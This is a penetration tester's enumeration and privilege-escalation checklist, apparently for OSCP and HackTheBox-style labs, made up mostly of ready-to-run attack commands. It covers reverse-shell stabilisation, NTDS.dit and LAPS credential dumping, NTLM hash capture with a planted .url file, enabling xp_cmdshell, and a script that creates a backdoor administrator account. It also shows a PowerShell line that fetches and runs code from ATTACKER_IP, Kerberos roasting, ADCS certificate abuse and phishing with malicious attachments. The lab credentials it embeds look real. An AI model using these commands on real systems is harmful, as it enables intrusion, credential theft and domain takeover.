




# 📋Enumeration Checklist

## **REVERT AFTER INITIAL ENUMERATION**

#### IF PHP SHELL  REQUIRED USE **PHP Ivan Sincek** from revshells

Sometimes if the payload is not working try:

```bash
sudo ifconfig tun0 mtu 1250
```

* [ ] Full tty for linux:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'

(inside the nc session) CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```

## Windows Privesc Checklist

If windows then just use _rdesktop_ to connect without credentials and check version

* [ ] [Winpeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
* [ ] [PrivescCheck](https://github.com/itm4n/PrivescCheck)
* [ ] [Adpeas](https://github.com/61106960/adPEAS)&#x20;

To check if Powershell or CMD:

```powershell
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```

## Enumeration

Rustscan:

```bash
rustscan -a 192.168.234.62 --accessible --ulimit 5000 -- -sC -sV
```

* [ ] Check default passwords and try to bruteforce with the respective worldlists from seclists.
* [ ] Check for http websites on unusual ports
* [ ] If upload present try **ntlm-theft**
* [ ] If website files are accessible by htdocs,etc then try to upload shell.php by symlink or directly.
* [ ] If .NET use iLspy or dnspy or dotpeek
* [ ] If zip file use evilarc for path traversal

### Netexec

* [ ] Password policy: `nxc smb 10.10.10.161 --pass-pol -u '' -p ''`
* [ ] To enumerate users: `nxc smb 172.16.5.5 --users`\
  Groups enumeration: `--groups`
* [ ] Laps password:

```
nxc winrm <ip> -u user-can-read-laps -p pass --laps 
```

Add name at end if administrator is a different user

* [ ] Bloodhound

```
nxc ldap <ip> -u user -p pass --bloodhound -c All -ns <ip>
```

* [ ] NTDS.dit from DC:

```
nxc smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```

* [ ] To spider a share :

```
nxc smb 172.16.5.5 -u forend -p Klmcargo2 -M spider_plus --share 'Department Shares'
```

* [ ] If local admin then can [pass-the-password-or-pass-the-hash.md](../active-directory/ad-exploitation/pass-the-password-or-pass-the-hash.md "mention") to privilege escalate
* [ ] To check credentials in gpp:

```
nxc smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_autologin
```

* [ ] Asreproasting:

```
nxc ldap 192.168.0.104 -u harry -p '' --asreproast output.txt
```

or with wordlist :

```
nxc ldap 192.168.0.104 -u user.txt -p '' --asreproast output.txt
```

* [ ] To check if computers can be added

```
nxc ldap $DOMAIN_CONTROLLER -d $DOMAIN -u $USER -p $PASSWORD -M maq
```

* [ ] Run commands on behalf of other users:

```
nxc smb <ip> -u <localAdmin> -p <password> -M schtask_as -o USER=<logged-on-user> CMD=<cmd-command>
```

Quickly add user to domain admin:

```
powershell.exe \"Invoke-Command -ComputerName DC01 -ScriptBlock {Add-ADGroupMember -Identity 'Domain Admins' -Members USER.NAME}\"
```

* [ ] Security questions:

```
nxc smb <ip> -u user -p pass -M security-questions
```

* [ ] [https://docs.google.com/spreadsheets/d/1d-zCUtww0D4ZmopeGhL2qTnyOMi7YPK9w3hkHtvpkYw/edit#gid=2080645025](https://docs.google.com/spreadsheets/d/1d-zCUtww0D4ZmopeGhL2qTnyOMi7YPK9w3hkHtvpkYw/edit#gid=2080645025) for more commands

### HTTP

* [ ] Try cadaver and try to upload shell
* [ ] Try bruteforce with burp before hydra.

### SNMP (UDP 161)

* [ ] Use snmpwalk

```bash
snmpwalk -c public -v1 -t 10 192.168.50.151
```

Add one of these at the end in snmpwalk

| 1.3.6.1.2.1.25.1.6.0   | System Processes |
| ---------------------- | ---------------- |
| 1.3.6.1.2.1.25.4.2.1.2 | Running Programs |
| 1.3.6.1.2.1.25.4.2.1.4 | Processes Path   |
| 1.3.6.1.2.1.25.2.3.1.4 | Storage Units    |
| 1.3.6.1.2.1.25.6.3.1.2 | Software Name    |
| 1.3.6.1.4.1.77.1.2.25  | User Accounts    |
| 1.3.6.1.2.1.6.13.1.3   | TCP Local Ports  |

Then try:

```
snmpwalk -v2c -c public $IP NET-SNMP-EXTEND-MIB::nsExtendOutputFull
```

`-v` - 1 ,2c ,3

To bruteforce community strings:

```
hydra -P /usr/share/seclists/Discovery/SNMP/common-snmp-community-strings-onesixtyone.txt 10.10.255.200 snmp
```

Then can use snmp-check to get more info:

```
snmp-check -c 'community-string-here' <ip>
```

For brute-forcing ip:

```
echo public > community
echo private >> community
echo manager >> community
for ip in $(seq 1 254); do echo 192.168.215.$ip; done > ips
onesixtyone -c community -i ips
```

### tftp

To bruteforce files in tftp:

```
sudo nmap -Pn -sU -p69 --script tftp-enum 192.168.209.149
```

### ICMP

* [ ] Can ping whole subnet `fping -asgq 172.16.5.0/23`

### SMTP

* To send an email with smtp server:

```bash
sudo swaks -t dave.wizard@supermagicorg.com --from test@supermagicorg.com --attach @config.Library-ms --server 192.168.167.199 -body @body.txt -header "Subject:Problems" -ap
```

Add `-ap` for authentication

Or:

```
sendemail -f 'jonas@localhost' \
-t 'mailadmin@localhost' \
-s 192.168.219.140:25 \
-u 'a spreadsheet' \
-m 'Please check this spreadsheet' \
-a shell.ods  
```

### DNS

* [ ] To dump all dns: `adidnsdump -u inlanefreight\\forend ldap://172.16.5.5` to resolve unknown records use `-r`
* [ ] To find other domains:

```
dig @10.10.11.174 +short support.htb any
```

* [ ] Zone transfer info to find other domains:

```
dig @<ip> axfr flight.htb
```

<figure><figcaption></figcaption></figure>

* [ ] Use host or dnsrecon command and use -t to select dns record type `host -t mx megacorpone.com` `dnsrecon -d megacorpone.com -t std`

### SMB(139,445)

* [ ] Check for anonymous access:
  * [ ] `smbmap -u guest -H <ip>`
  * [ ] For anonymous `cme smb 10.10.11.202 -u 'anon' -p '' --shares`
* [ ] Scan SMB:

```
sudo nmap --script smb-vuln* <IP>
```

* [ ] If hashes are acquired from mssql or smb then try [smb-relaying.md](../active-directory/ad-exploitation/smb-relaying.md "mention") if message signing disabled. Check with

```bash
nxc smb 10.10.143.69-71(ip range) --gen-relay-list relay.txt
```

* [ ] Check for interesting scripts in SYSVOL: `ls \\academy-ea-dc01\SYSVOL\INLANEFREIGHT.LOCAL\scripts` and might find passwords in .vbs files
* [ ] To bruteforce usernames:

```bash
nxc smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --rid-brute
```

* [ ] To mount a share:

```
sudo mount -t cifs -o 'user=username,password=pass' //<ip>/share /mnt/share
```

* [ ] If the share looks like it is being accessed try to capture NTLMv2 hashes by using evil url and responder(analysis mode):

```
[InternetShortcut]
URL=whatever
WorkingDirectory=whatever
IconFile=\\10.8.1.208\%USERNAME%.icon
IconIndex=1
```

* [ ] For OS discovery `nmap -v -p 139,445 --script smb-os-discovery 192.168.50.152`
* [ ] For older windows version: `sudo nmap --script smb-vuln* 192.168.180.40`
* [ ] If a shared share is discovered try multiple poisoned files. Easiest is ntlmtheft.

### FTP(21)

* [ ] Check for ftp anonyomous access:
  * [ ] `ftp <ip>`
* [ ] To bruteforce use medusa `medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp`
* [ ] Default location is /var/ftp
* [ ] `quote PASV` to fix ftp or use `passive`
* [ ] List files:

```
nxc ftp 192.168.0.10 -u 'marshall' -p 'badpassword' --ls
```

* [ ] Upload/Download

```
netexec ftp [IP_ADDRESS] -u [USERNAME] -p [PASSWORD] --put [LOCAL_FILE] [REMOTE_FILE]
```

```
netexec ftp [IP_ADDRESS] -u [USERNAME] -p [PASSWORD] --get [FILE]
```

### Postgres

* [ ] Try authentication with admin:admin or postgres:postgres and such variations

```
psql -U postgres -W -h 192.168.212.47 -p 5437
```

* [ ] To view current user:

```
SELECT user;
```

* [ ] To get list of databases:

```
\list
```

* [ ] To check version:

```
SELECT version();
```

Now check for exploits and use `searchsploit -m multiple/remote/50847.py` if version from 9.3 to 11.7

### MSSQL

* [ ] Check version

```
select @@version;
```

* [ ] Check databases

```
SELECT name FROM master.dbo.sysdatabases
```

* [ ] Check tables in database:

```
SELECT * FROM <databaseName>.INFORMATION_SCHEMA.TABLES;
```

* [ ] We can check user:

```
select system_user;
```

* [ ] Check as what user the db is running:

```
exec xp_dirtree "\\10.8.1.208\share"
```

Catch with responder or smbserver

* [ ] If chain try [smb-relaying.md](../active-directory/ad-exploitation/smb-relaying.md "mention")
* [ ] To get an interactive mssql shell: `mssqlclient.py user:pass@sequel.htb`
* [ ] If password present try /
* [ ] To enable xp\_cmdshell:

```
EXEC master.dbo.sp_configure 'show advanced options', 1;
RECONFIGURE;
```

or

```
EXEC sp_configure 'show advanced options',1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell',1; 
RECONFIGURE;-- 
```

* [ ] Check for impersonation:

```
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
```

Refer PG Practice- hokkaido

* [ ] To audit: `Invoke-SQLAudit -Verbose` from PowerUpSQL
  * [ ] look for privesc cheatsheat in powerupsql github

### RPC

* [ ] enumerate `rpcclient -U '' -N <ip>` then try `enumdomusers`,`querydispinfo`,etc.
* [ ] Only users:

```
rpcclient -U "" <ip> -N -c "enumdomusers" | grep -oP '\[.*?\]' | grep "0x" -v | tr -d '[]' > userlist.txt
```

* [ ] User info can be changed with `setuserinfo`. To change oassword:

```
setuserinfo christopher.lewis 23 'Admin!23'
```

### RDP

* [ ] To connect to rdp:

```
xfreerdp /u:offsec /p:lab /v:192.168.183.250 /cert-ignore /compression /auto-reconnect /drive:/tmp,tmp +clipboard
```

If any black screen problems:

```
sudo ifconfig tun0 mtu 1250
```

* [ ] If administrator get RDP by using Enable\_RDP.ps1 script:

```
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0

$username = "hackmin"
$password = ConvertTo-SecureString "Password123$" -AsPlainText -Force
New-LocalUser -Name "$username" -Password $password -FullName "$username" -Description "hackmin"
 
Add-LocalGroupMember -Group "Administrators" -Member "$username"
```

```
iex ((New-Object System.Net.WebClient).DownloadString('http://${ATTACKER_IP}:${ATTACKER_PORT}/Enable_RDP.ps1'))
```

### Ldap

* [ ] Netexec ldap more to less info order:

```
nxc ldap 192.168.235.122 -u 'fmcsorley' -p 'CrabSharkJellyfish192' --query "(objectClass=*)" "*"
```

```
nxc ldap 192.168.235.122 -u '' -p '' --query "(sAMAccountName=*)" "*"
```

```
nxc ldap <ip> -u username -p password --query "(sAMAccountName=Administrator)" ""
```

Change the name here

```
nxc ldap <ip> -u username -p password --query "(sAMAccountName=Administrator)" "sAMAccountName objectClass pwdLastSet"
```

To get descriptions for users:

```
nxc ldap 192.168.235.122 -u '' -p '' -M get-desc-users
```

* [ ] ldapnomnom for bruteforcing usernames fast asf. Check for usernames with

```
ldapnomnom --input 10m_usernames.txt --output multiservers.txt --dnsdomain contoso.local --maxservers 32 --parallel 16
```

```
ldapnomnom --input 10m_usernames.txt --output results.txt --server 192.168.0.11 --parallel 4
```

Extract rootDSE attributes:

```
ldapnomnom --output rootDSEs.json --dump
```

* [ ] Using nmap to enumerate ldap

```
nmap -sV --script "ldap* and not brute" <IP>` 
```

* [ ] Check ldap using ldapsearch: `ldapsearch -x -H ldap://<ip>`
* [ ] Get FQDN :`ldapsearch -x -H ldap://<ip> -s base namingcontexts`
* [ ] Get all info:

```
ldapsearch -x -H ldap://192.168.218.122 -s base namingcontexts
```

Get everything to grep for:

```
ldapsearch -x -H ldap://192.168.192.122 -D '' -w '' -b "DC=hutch,DC=offsec" > ldap-search
```

```
ldapsearch -H ldap://<ip> -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))"
```

Analysing:

```
cat ldap.txt | awl '{print $1}' | sort | uniq -c| sort -n | grep ':'
```

Print first word then sort then print unique and then show non repeating.`grep ':'` removes the base64 stuff.

* [ ] To **enumerate users** over ldap (ldap can be finicky revert):

```
ldapsearch -H ldap://<ip> -x -b "DC=absolute,DC=htb" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "
```

Optionally use authentication with `-U` and `-w` for username and password

* [ ] To get everything:

```
ldapsearch -x -H ldap://192.168.192.122 -D '' -w '' -b "DC=hutch,DC=offsec"
```

* \[ ]

```
./windapsearch.py --dc-ip 172.16.5.5 -u "" -U
```

* [ ] To enumerate various things use windapsearch.py

```
python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 --da
```

use -PU for potential users with elevated privileges that might have gone unnoticed

* [ ] To check for domain admins

```
python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 --da
```

* [ ] TO check for privileged users

```
python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 -PU
```

### Miscellaneous

* [ ] Use [lazagne](https://github.com/AlessandroZ/LaZagne) to search for stored credentials in web browsers,applications,etc.
* [ ] If Groupds.xml found use _gpp-decrypt_

## Active Directory

&#x20;

<figure><figcaption></figcaption></figure>

If linux and sudo user check: `/etc/krb5.keytab`

### [MindMaps](https://orange-cyberdefense.github.io/ocd-mindmaps/) [2024](https://orange-cyberdefense.github.io/ocd-mindmaps/img/pentest\_ad\_dark\_2023\_02.svg)

### [kerberoasting.md](../active-directory/ad-exploitation/kerberoasting.md "mention")

Try kerberoasting if you have credentials or a shell on the target machine

### [asreproasting.md](../active-directory/ad-exploitation/asreproasting.md "mention")

**Linux**

* [ ] `GetUserSPNs.py -dc-ip dc01.hybrid.vl hybrid.vl/peter.turner`
* [ ] Use kerbrute to bruteforce usernames and asreproast

```
kerbrute userenum --dc dc.absolute.htb -d absolute.htb username.txt
```

* [ ] For etype 23 hash: `--downgrade`
* [ ] For bruteforce: `/usr/share/seclists/Usernames/xato-net-10-million-usernames.txt`
* [ ] bruteforce from https://github.com/insidetrust/statistically-likely-usernames
* [ ] To get Ticket Granting Ticket:`getTGT.py absolute.htb/d.klay`
* [ ] Bloodhound with TGT:

```
KRB5CCNAME=d.klay.ccache ./bloodhound.py -k -dc dc.absolute.htb -ns 10.10.11.181 -c All -d absolute.htb -u d.klay@absolute.htb
```

* [ ] Hunting for Users with Kerberoast Pre-auth Not Required:

```
GetNPUsers.py INLANEFREIGHT.LOCAL/ -dc-ip 172.16.5.5 -no-pass -usersfile valid_ad_users
```

**Windows**

To enumerate for asreproastable users (PowerView):

```
Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl
```

* [ ] Rubeus method: `.\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat`

### Certificate Authority(CA)

* [ ] `nxc ldap sendai.vl -u Elliot.Yates -p 'aditya123@' -M adcs`
* [ ] To check for vulnerable certificates `sudo certipy-ad find -u 'a.briggs' -p 'password' -dc-ip <ip> -stdout -vulnerable` To get in bloodhound: `-old-bloodhound`
* [ ] Add [custom queries](https://raw.githubusercontent.com/ly4k/Certipy/main/customqueries.json) in `~./config/bloodhound/customqueries.json`

#### Esc1

* [ ] To request certificate:

```
certipy req -u 'MAIL01$'@hybrid.vl -hashes 0f916c5246fdbc7ba95dcef4126d57bd -c 'hybrid-DC01-CA' -target 'hybrid.vl' -template 'HybridComputers' -upn 'administrator@hybrid.vl' -dc-ip 10.10.208.21 -key-size 4096 -debug
```

* [ ] To auth:

```
certipy auth -pfx administrator_dc01.pfx -dc-ip 10.10.208.21
```

#### Esc4

* [ ] Convert to ESC1 and follow ESC1 procedure:

```
certipy template -username 'clifford.davey'@sendai.vl -password RFmoB2WplgE_3p -template SendaiComputer -save-old
```

* [ ] Try [petitpotam.md](../active-directory/ad-exploitation/petitpotam.md "mention")
* [ ] Check nmap for certificate authority
* [ ] If found enumerate post exploitation with [certify.exe](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)
* [ ] Refer Absolute-HTB for more details

### DNS Records

* [ ] Add a new computer:

```
addcomputer.py -dc-ip 10.10.67.128 -computer-pass EvilYeeb123 -computer-name evilyeeb sendai.vl/Susan.Harper:'Password123'
```

* [ ] Then use dnstool.py:

```
dnstool.py -u 'sendai.vl\evilyeeb$' -p 'EvilYeeb123' -r evilyeeb.sendai.vl -d 10.8.0.193 --action add DC.sendai.vl -dns-ip 10.10.67.128
```

### Bloodhound

If SID is displayed it is a **local account**. BloodHound uses this representation of a principal when the domain identifier of the SID is from a local machine

Use **Collection Loops to not miss information.**

* bloodhound.py ingestor

```
bloodhound.py -u 'forend' -p 'Klmcargo2' -ns 172.16.5.5 -d inlanefreight.local -c all --zip
```

can also use `-dns-tcp`

* [ ] **Manual commands**: Format for cypher:

```
(NODES)-[:RELATIONSHIP]->(NODES)
```

All computers in domain:

```
MATCH (m:Computer) RETURN m
```

All Users in domain:

```
MATCH (m:User) RETURN m
```

To get active sessions:

```
MATCH p = (c:Computer)-[:HasSession]->(m:User) RETURN p
```

* [ ] **If error try dnschef:**

```
dnschef --fakeip 10.10.225.134	
```

```
bloodhound.py -u 'rsmith' -p 'IHateEric2' -d lab.trusted.vl -dc labdc.lab.trusted.vl -c all -ns 127.0.0.1
```

* [ ] If we have shell access on the target

```
SharpHound.exe -c All
```

`--Loop --LoopDuration 00:10:00` to loop

* [ ] **To get all users**

```
cat 20240302180235_users.json | jq '.data[].Properties | .samaccountname + ":" + .description' -r
```

* [ ] If object-id of a group is above _1000_ it is non default
* [ ] Bloodhound doesn't collect _Info_ so check that with ldapsearch
* [ ] Raw query to enumerate users with SQLAdmin: `MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer) RETURN p2`
* [ ] Raw query to enumerate users with CanPSRemote: `MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p2`

### Security and Obfuscation

* [ ] Powershell command for windows defender `Get-MpComputerStatus`
* [ ] There are multiple locations for powershell if blocked: `%SystemRoot%\SysWOW64\WindowsPowerShell\v1.0\powershell.exe`
* [ ] To check whitelist apps: `Get-AppLockerPolicy`
* [ ] To find the users who can read Local Administrator Password Solution (LAPS) passwords`Find-LAPSDelegatedGroups`
* [ ] To check if LAPS enabled or cleartext passwords sometimes `Get-LAPSComputers`

### Impacket

* [ ] GetNPUsers - This script will attempt to list and get TGTs for those users that have the property 'Do not require Kerberos preauthentication' for asrep roasting.
  * [ ] `GetNPUsers.py -dc-ip 10.10.10.161 -request 'htb.local/' -format hashcat`
* [ ] GetUserSPN - For kerberoasting as it Queries target domain for SPNs that are running under a user account
  * [ ] List SPN accounts`GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend` add `-request`to get in hashcat format or `-request-user` to get only for the user

### ACL(Access Control List)

#### PowerView

Suppose we have a single user and want to enumerate ACL from there. In these examples the user is wley

```
Import-Module .\PowerView.ps1
$sid = Convert-NameToSid wley
```

Now to get ACL:

```
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid} 
```

<figure><figcaption></figcaption></figure>

#### Without PowerView

* To get all users list

```
Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt
```

* Now getting the data with Get-ACL:

```
foreach($line in [System.IO.File]::ReadLines("C:\Users\htb-student\Desktop\ad_users.txt")) {get-acl  "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match 'INLANEFREIGHT\\wley'}}
```

<figure><figcaption></figcaption></figure>

Here we have access over damundsen

* Then to convert the GUID use:

```
$guid= "00299570-246d-11d0-a768-00aa006e0529"
Get-ADObject -SearchBase "CN=Extended-Rights,$((Get-ADRootDSE).ConfigurationNamingContext)" -Filter {ObjectClass -like 'ControlAccessRight'} -Properties * |Select Name,DisplayName,DistinguishedName,rightsGuid| ?{$_.rightsGuid -eq $guid} | fl
```

* To further enumerate damundsen

```
$sid2 = Convert-NameToSid damundsen
PS C:\htb> Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid2} -Verbose
Access over HelpDesk
```

<figure><figcaption></figcaption></figure>

* To enumerate Help Desk

```
Get-DomainGroup -Identity "Help Desk Level 1" | select memberof
```

### [dcsync.md](../active-directory/ad-exploitation/dcsync.md "mention")

#### [#powerview](enumeration-checklist.md#powerview "mention")

* [ ] To get passwords in descriptions:

```
Get-DomainUser * | Select-Object samaccountname,description |Where-Object {$_.Description -ne $null}
```

* [ ] Checking for PASSWD\_NOTREQD Setting

```
Get-DomainUser -UACFilter PASSWD_NOTREQD | Select-Object samaccountname,useraccountcontrol
```

* [ ] Checking for pre auth kerberos not required

```
Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl
```

* [ ] Enumerating GPO names:\
  PowerShell:`Get-DomainGPO |select displayname` Built-in:`Get-GPO -All | Select DisplayName`
* [ ] Rights Over GPO:

```
$sid=Convert-NameToSid "Domain Users"
PS C:\htb> Get-DomainGPO | Get-ObjectAcl | ?{$_.SecurityIdentifier -eq $sid}
```

To abuse GPO misconfiguration: [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse)

## PFX

* To open certificate

```
openssl pkcs12 -in file.pfx -info
```

If pfx file is encountered and it is password protected use `pfx2john`

* To extract certificate and key:

```
openssl pkcs12 -in file.pfx -nocerts -out key.pem -nodes
```

```
openssl pkcs12 -in file.pfx -nokeys -out key.cert
```

* We can use winrm to login using keys.

```
evil-winrm -S -i <ip> -c key.cert -k key.pem
```
